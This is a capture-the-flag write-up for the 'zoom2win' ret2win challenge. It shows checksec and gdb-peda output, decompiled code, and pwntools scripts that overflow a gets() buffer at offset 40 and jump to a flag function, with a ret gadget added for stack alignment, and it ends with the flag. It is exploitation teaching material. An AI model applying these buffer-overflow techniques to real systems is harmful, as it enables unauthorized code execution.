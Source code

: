 # zoom2win

by ZeroDayTea

what would CTFs be without our favorite ret2win (nc 143.198.184.186 5003)

## Analysis

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file zoom2win; checksec zoom2win 
zoom2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f4a85541e0d661960a7b05ed51b3513d58e85a5a, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
./zoom2win                       
Let's not overcomplicate. Just zoom2win :)
chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v5; // [rsp-28h] [rbp-28h]
  __int64 v6; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v6 = v3;
  sub_401070("Let's not overcomplicate. Just zoom2win :)", argv, envp);
  return sub_401090(&v5);
}
```

From the source code, there is another function that caught my eyes. It's `flag` function. Let's take a look.

#### flag
```c
__int64 flag()
{
  __asm { endbr64 }
  return sub_401080("cat flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./zoom2win    
Reading symbols from ./zoom2win...
(No debugging symbols found in ./zoom2win)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf48: 0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  system@plt
0x0000000000401090  gets@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  flag
0x00000000004011b2  main
0x00000000004011de  bufinit
0x0000000000401250  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
0x00000000004012c8  _fini
```

## Exploit

Let's make a solver using python
```python
from pwn import *

padding = 40 # offset from the input to return
flag = 0x0000000000401196 # flag address

s = process("./zoom2win")

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!
![](zoom2win-local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./zoom2win")` to `s = remote(host, port)`
```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now all we need to do is just run the program!

![](zoom2win-serverTry.png)

Wait what? Sadly we didn't get the flag :(

After some research, it seems the problem is stack alignment (Reference: [Buffer overflow stack alignment](https://youtu.be/vqNQe9xjz2Q)). From the youtube video, all that we need is just the address of return in main function and add it before add the address of flag into the payload.

```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(ret_main)
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now let's run the program again :D
![](zoom2win.png)

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
